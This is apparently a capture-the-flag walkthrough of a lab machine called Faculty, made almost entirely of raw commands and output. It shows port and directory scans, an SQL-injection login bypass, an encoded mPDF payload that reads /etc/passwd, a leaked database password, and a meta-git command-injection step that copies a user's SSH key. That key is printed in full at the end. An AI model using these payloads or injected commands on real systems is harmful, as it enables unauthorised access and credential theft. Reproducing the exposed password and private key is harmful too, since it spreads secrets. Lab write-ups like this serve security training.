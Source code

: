 
```
└─$ nmap -A -p- -T4 -Pn faculty.htb 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-30 10:47 CDT
Nmap scan report for faculty.htb (10.129.251.2)
Host is up (0.043s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e9:41:8c:e5:54:4d:6f:14:98:76:16:e7:29:2d:02:16 (RSA)
|   256 43:75:10:3e:cb:78:e9:52:0e:eb:cf:7f:fd:f6:6d:3d (ECDSA)
|_  256 c1:1c:af:76:2b:56:e8:b3:b8:8a:e9:69:73:7b:e6:f5 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-title: School Faculty Scheduling System
|_Requested resource was login.php
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.10 seconds
```



─$ feroxbuster -u http://faculty.htb/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -x php,html,txt,git -q
302      GET      359l      693w        0c http://faculty.htb/ => login.php
301      GET        7l       12w      178c http://faculty.htb/admin => http://faculty.htb/admin/
500      GET        0l        0w        0c http://faculty.htb/test.php
200      GET      132l      235w        0c http://faculty.htb/login.php
200      GET      175l      311w        0c http://faculty.htb/admin/login.php
301      GET        7l       12w      178c http://faculty.htb/admin/assets => http://faculty.htb/admin/assets/
301      GET        7l       12w      178c http://faculty.htb/admin/database => http://faculty.htb/admin/database/
200      GET        1l        0w        0c http://faculty.htb/admin/download.php
301      GET        7l       12w      178c http://faculty.htb/admin/assets/css => http://faculty.htb/admin/assets/css/
301      GET        7l       12w      178c http://faculty.htb/admin/assets/js => http://faculty.htb/admin/assets/js/
301      GET        7l       12w      178c http://faculty.htb/admin/assets/img => http://faculty.htb/admin/assets/img/
200      GET        0l        0w        0c http://faculty.htb/admin/ajax.php
200      GET      106l      167w        0c http://faculty.htb/admin/home.php
200      GET       70l      105w        0c http://faculty.htb/admin/users.php
301      GET        7l       12w      178c http://faculty.htb/admin/assets/uploads => http://faculty.htb/admin/assets/uploads/
302      GET      359l      693w        0c http://faculty.htb/index.php => login.php
302      GET      420l      809w        0c http://faculty.htb/admin/index.php => login.php
500      GET       43l       88w        0c http://faculty.htb/admin/events.php
301      GET        7l       12w      178c http://faculty.htb/admin/assets/uploads/gallery => http://faculty.htb/admin/assets/uploads/gallery/
200      GET        0l        0w        0c http://faculty.htb/admin/article.txt
200      GET       47l      106w        0c http://faculty.htb/header.php
200      GET       47l      106w        0c http://faculty.htb/admin/header.php
200      GET      218l      445w        0c http://faculty.htb/admin/courses.php
200      GET      201l      371w        0c http://faculty.htb/admin/schedule.php
200      GET        0l        0w        0c http://faculty.htb/admin/readme.txt
301      GET        7l       12w      178c http://faculty.htb/admin/assets/vendor => http://faculty.htb/admin/assets/vendor/
200      GET      218l      372w        0c http://faculty.htb/admin/faculty.php
301      GET        7l       12w      178c http://faculty.htb/admin/assets/vendor/jquery => http://faculty.htb/admin/assets/vendor/jquery/
200      GET       28l       70w        0c http://faculty.htb/admin/navbar.php
200      GET        0l        0w        0c http://faculty.htb/admin/db_connect.php
200      GET      232l      458w        0c http://faculty.htb/admin/subjects.php
301      GET        7l       12w      178c http://faculty.htb/mpdf => http://faculty.htb/mpdf/
301      GET        7l       12w      178c http://faculty.htb/mpdf/tmp => http://faculty.htb/mpdf/tmp/
301      GET        7l       12w      178c http://faculty.htb/mpdf/includes => http://faculty.htb/mpdf/includes/
500      GET        0l        0w        0c http://faculty.htb/mpdf/config.php
301      GET        7l       12w      178c http://faculty.htb/mpdf/classes => http://faculty.htb/mpdf/classes/
200      GET        0l        0w        0c http://faculty.htb/mpdf/includes/out.php
200      GET        0l        0w        0c http://faculty.htb/mpdf/includes/functions.php
301      GET        7l       12w      178c http://faculty.htb/mpdf/font => http://faculty.htb/mpdf/font/
200      GET        0l        0w        0c http://faculty.htb/mpdf/classes/gif.php
200      GET        0l        0w        0c http://faculty.htb/mpdf/graph.php
200      GET        0l        0w        0c http://faculty.htb/mpdf/classes/barcode.php
200      GET       37l       84w        0c http://faculty.htb/topbar.php
200      GET       37l       84w        0c http://faculty.htb/admin/topbar.php
301      GET        7l       12w      178c http://faculty.htb/mpdf/patterns => http://faculty.htb/mpdf/patterns/
200      GET        0l        0w        0c http://faculty.htb/mpdf/patterns/en.php
200      GET        0l        0w        0c http://faculty.htb/mpdf/patterns/de.php
200      GET        0l        0w        0c http://faculty.htb/mpdf/patterns/fr.php
200      GET        0l        0w        0c http://faculty.htb/mpdf/classes/sea.php
200      GET        0l        0w        0c http://faculty.htb/mpdf/patterns/es.php
200      GET        0l        0w        0c http://faculty.htb/mpdf/patterns/it.php
200      GET        0l        0w        0c http://faculty.htb/mpdf/patterns/ru.php
200      GET        0l        0w        0c http://faculty.htb/mpdf/patterns/nl.php
200      GET        0l        0w        0c http://faculty.htb/mpdf/patterns/pl.php
200      GET        0l        0w        0c http://faculty.htb/mpdf/patterns/sv.php
200      GET        0l        0w        0c http://faculty.htb/mpdf/patterns/fi.php
301      GET        7l       12w      178c http://faculty.htb/mpdf/qrcode => http://faculty.htb/mpdf/qrcode/
301      GET        7l       12w      178c http://faculty.htb/mpdf/qrcode/data => http://faculty.htb/mpdf/qrcode/data/
500      GET        0l        0w        0c http://faculty.htb/mpdf/qrcode/image.php
200      GET       94l     1552w        0c http://faculty.htb/mpdf/qrcode/index.php
200      GET        0l        0w        0c http://faculty.htb/mpdf/classes/bmp.php
200      GET        1l        1w       29c http://faculty.htb/mpdf/patterns/dictionary.txt
200      GET        0l        0w        0c http://faculty.htb/mpdf/classes/grad.php
200      GET        1l       15w        0c http://faculty.htb/mpdf/compress.php
500      GET        0l        0w        0c http://faculty.htb/mpdf/classes/svg.php
200      GET        0l        0w        0c http://faculty.htb/mpdf/classes/meter.php
200      GET        0l        0w        0c http://faculty.htb/mpdf/mpdf.php
200      GET        0l        0w        0c http://faculty.htb/mpdf/classes/myanmar.php


http://faculty.htb/admin/login.php

'or'1=1#
'or'1=1#



```
POST /admin/download.php HTTP/1.1
Host: faculty.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 264
Origin: http://faculty.htb
Connection: close
Referer: http://faculty.htb/admin/index.php?page=courses
Cookie: PHPSESSID=hneu6on85983rv7piegcgjot0d
Cache-Control: max-age=0

pdf=JTI1M0Nhbm5vdGF0aW9uJTI1MjBmaWxlPSUyNTIyL2V0Yy9wYXNzd2QlMjUyMiUyNTIwY29udGVudD0lMjUyMi9ldGMvcGFzc3dkJTI1MjIlMjUyMGljb249JTI1MjJHcmFwaCUyNTIyJTI1MjB0aXRsZT0lMjUyMkF0dGFjaGVkJTI1MjBGaWxlOiUyNTIwL2V0Yy9wYXNzd2QlMjUyMiUyNTIwcG9zLXg9JTI1MjIxOTUlMjUyMiUyNTIwLyUyNTNF
```

http://faculty.htb/mpdf/tmp/OKQVoYJgi9AqWEu045DZNwdzfX.pdf


└─$ cat db_connect.php 
<?php 

$conn= new mysqli('localhost','sched','Co.met06aci.dly53ro.per','scheduling_db')or die("Could not connect to mysql".mysqli_error($con));
                    


└─$ ssh gbyolo@faculty.htb          
The authenticity of host 'faculty.htb (10.129.251.2)' can't be established.
ED25519 key fingerprint is SHA256:JYKRgj5yk9qD3GxSCsRAgUIBAhmTssq961F3rHxWlnY.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'faculty.htb' (ED25519) to the list of known hosts.
gbyolo@faculty.htb's password: 
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-121-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Sep 30 19:33:17 CEST 2022

  System load:           0.02
  Usage of /:            80.4% of 4.67GB
  Memory usage:          57%
  Swap usage:            0%
  Processes:             225
  Users logged in:       0
  IPv4 address for eth0: 10.129.251.2
  IPv6 address for eth0: dead:beef::250:56ff:feb9:93ab


0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

You have mail.
gbyolo@faculty:~$ 

https://hackerone.com/reports/728040
```
gbyolo@faculty:/tmp$ sudo -u developer /usr/local/bin/meta-git clone 'sss||cat /home/developer/.ssh/id_rsa > /tmp/id_rsa'
meta git cloning into 'sss||cat /home/developer/.ssh/id_rsa > /tmp/id_rsa' at id_rsa
```


```
-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----
```
